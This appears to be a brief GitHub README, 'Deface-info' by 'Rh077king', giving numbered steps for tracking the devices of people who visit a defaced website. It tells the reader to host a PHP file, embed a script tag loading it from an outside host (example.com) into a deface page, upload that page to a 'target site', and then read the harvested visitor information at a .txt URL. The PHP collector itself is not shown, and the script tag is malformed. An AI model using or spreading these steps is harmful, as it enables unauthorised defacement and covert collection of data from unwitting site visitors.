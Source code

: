 # Deface-info
Rh077king


Topic:-Deface Visitors🙄 Device Information

°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°
1:- Upload file your hosting site

2:-Open Your Deface file A editor Apps
            (Example script)
            
3:- <script src="example.com/Rh077king.php"><script>

4:- save your deface file

5:- Upload Deface your Target site

Deface visitors device information see
               Example
https://www.example.com/Rh077king.txt

😬

